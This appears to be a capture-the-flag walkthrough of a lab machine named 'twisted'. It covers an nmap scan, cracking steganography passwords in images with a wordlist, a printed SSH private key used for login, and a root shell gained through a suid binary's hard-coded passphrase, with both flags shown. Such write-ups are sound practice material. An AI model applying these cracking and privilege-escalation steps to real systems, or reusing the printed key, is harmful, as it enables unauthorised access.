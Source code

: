 ***Target: 10.0.0.9***

## ***NMAP***

    # nmap -sS -T4 -p- 10.0.0.9

    PORT     STATE SERVICE                                                                                    
    80/tcp   open  http                                                                                       
    2222/tcp open  EtherNetIP-1

Port 2222 is running ssh.

## ***HTTP***

    # stegcracker cat-hidden.jpg /usr/share/wordlists/rockyou.txt 
    StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
    Copyright (c) 2022 - Luke Paris (Paradoxis)

    StegCracker has been retired following the release of StegSeek, which 
    will blast through the rockyou.txt wordlist within 1.9 second as opposed 
    to StegCracker which takes ~5 hours.

    StegSeek can be found at: https://github.com/RickdeJager/stegseek

    Counting lines in wordlist..
    Attacking file 'cat-hidden.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
    Successfully cracked file with password: sexymama
    Tried 964 passwords
    Your file has been written to: cat-hidden.jpg.out
    sexymama

>

    # stegcracker cat-original.jpg 
    StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
    Copyright (c) 2022 - Luke Paris (Paradoxis)

    StegCracker has been retired following the release of StegSeek, which 
    will blast through the rockyou.txt wordlist within 1.9 second as opposed 
    to StegCracker which takes ~5 hours.

    StegSeek can be found at: https://github.com/RickdeJager/stegseek

    No wordlist was specified, using default rockyou.txt wordlist.
    Counting lines in wordlist..
    Attacking file 'cat-original.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
    Successfully cracked file with password: westlife
    Tried 968 passwords
    Your file has been written to: cat-original.jpg.out
    westlife

## ***SSH***

After login in to the two users I found some notes on their home directories.

### ***/home/markus/note.txt:***

    Hi bonita,
    I have saved your id_rsa here: /var/cache/apt/id_rsa
    Nobody can find it.

>

### ***/home/mateo/note.txt:***

    /var/www/html/gogogo.wav


After downloading the wav file to our local machine, I searched for a decoder and got this message.

    G O D E E P E R . . . C O M E W I T H M E . . . L I T T L E R A B B I T . . .

    $ tail -n100 /var/cache/apt/id_rsa

    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAQEA8NIseqX1B1YSHTz1A4rFWhjIJffs5vSbAG0Vg2iTa+xshyrmk6zd
    FyguFUO7tN2TCJGTomDTXrG/KvWaucGvIAXpgV1lQsQkBV/VNrVC1Ioj/Fx3hUaSCC4PBS
    olvmldJg2habNOUGA4EBKlTwfDi+vjDP8d77mF+rvA3EwR3vj37AiXFk5hBEsqr9cWeTr1
    vD5282SncYtJb/Zx0eOa6VVFqDfOB7LKZA2QYIbfR7jezOdX+/nlDKX8Xp07wimFuMJpcF
    gFnch7ptoxAqe0M0UIEzP+G2ull3m80G5L7Q/3acg14ULnNVs5dTJWPO2Fp7J2qKW+4A5C
    tt0G5sIBpQAAA8hHx4cBR8eHAQAAAAdzc2gtcnNhAAABAQDw0ix6pfUHVhIdPPUDisVaGM
    gl9+zm9JsAbRWDaJNr7GyHKuaTrN0XKC4VQ7u03ZMIkZOiYNNesb8q9Zq5wa8gBemBXWVC
    xCQFX9U2tULUiiP8XHeFRpIILg8FKiW+aV0mDaFps05QYDgQEqVPB8OL6+MM/x3vuYX6u8
    DcTBHe+PfsCJcWTmEESyqv1xZ5OvW8PnbzZKdxi0lv9nHR45rpVUWoN84HsspkDZBght9H
    uN7M51f7+eUMpfxenTvCKYW4wmlwWAWdyHum2jECp7QzRQgTM/4ba6WXebzQbkvtD/dpyD
    XhQuc1Wzl1MlY87YWnsnaopb7gDkK23QbmwgGlAAAAAwEAAQAAAQAuUW5GpLbNE2vmfbvu
    U3mDy7JrQxUokrFhUpnJrYp1PoLdOI4ipyPa+VprspxevCM0ibNojtD4rJ1FKPn6cls5gI
    mZ3RnFzq3S7sy2egSBlpQ3TJ2cX6dktV8kMigSSHenAwYhq2ALq4X86WksGyUsO1FvRX4/
    hmJTiFsew+7IAKE+oQHMzpjMGyoiPXfdaI3sa10L2WfkKs4I4K/v/x2pW78HIktaQPutro
    nxD8/fwGxQnseC69E6vdh/5tS8+lDEfYDz4oEy9AP26Hdtho0D6E9VT9T//2vynHLbmSXK
    mPbr04h5i9C3h81rh4sAHs9nVAEe3dmZtmZxoZPOJKRhAAAAgFD+g8BhMCovIBrPZlHCu+
    bUlbizp9qfXEc8BYZD3frLbVfwuL6dafDVnj7EqpabmrTLFunQG+9/PI6bN+iwloDlugtq
    yzvf924Kkhdk+N366FLDt06p2tkcmRljm9kKMS3lBPMu9C4+fgo9LCyphiXrm7UbJHDVSP
    UvPg4Fg/nqAAAAgQD9Q83ZcqDIx5c51fdYsMUCByLby7OiIfXukMoYPWCE2yRqa53PgXjh
    V2URHPPhqFEa+iB138cSgCU3RxbRK7Qm1S7/P44fnWCaNu920iLed5z2fzvbTytE/h9QpJ
    LlecEv2Hx03xyRZBsHFkMf+dMDC0ueU692Gl7YxRw+Lic0PQAAAIEA82v3Ytb97SghV7rz
    a0S5t7v8pSSYZAW0OJ3DJqaLtEvxhhomduhF71T0iw0wy8rSH7j2M5PGCtCZUa2/OqQgKF
    eERnqQPQSgM0PrATtihXYCTGbWo69NUMcALah0gT5i6nvR1Jr4220InGZEUWHLfvkGTitu
    D0POe+rjV4B7EYkAAAAOYm9uaXRhQHR3aXN0ZWQBAgMEBQ==
    -----END OPENSSH PRIVATE KEY-----

>

    # ssh bonita@10.0.0.9 -i id_rsa -p 2222

### ***/home/bonita/user.txt***
    HMVblackcat

We can find in the bonita's home directory a complied script with suid permissions. After disassembling it we can see that if we enter the right passphrase the functions setuid and setguid are called followed by the function system.

    0x000055a3a269d1b8 <+51>:    call   0x55a3a269d060 <scanf@plt>
    0x000055a3a269d1bd <+56>:    mov    eax,DWORD PTR [rbp-0x4]

The ***scanf*** function is being called and is storing the value entered in the register ***eax***.

    0x000055a3a269d1c0 <+59>:    cmp    eax,0x16f8

The cmp function is used, comparing the user's input with the hex value ***0x16f8***. Decoding the value from hex (base16) to decimal (base10).

    Hex:
    0x16f8

    Decimal: 
    5880

>

Let's run the script with the code we found and check if get root access.

    $ ./beroot 
    Enter the code:
    5880
    root@twisted:~# id -a
    uid=0(root) gid=0(root) groups=0(root),1002(bonita)

    # cat root.txt 
    HMVwhereismycat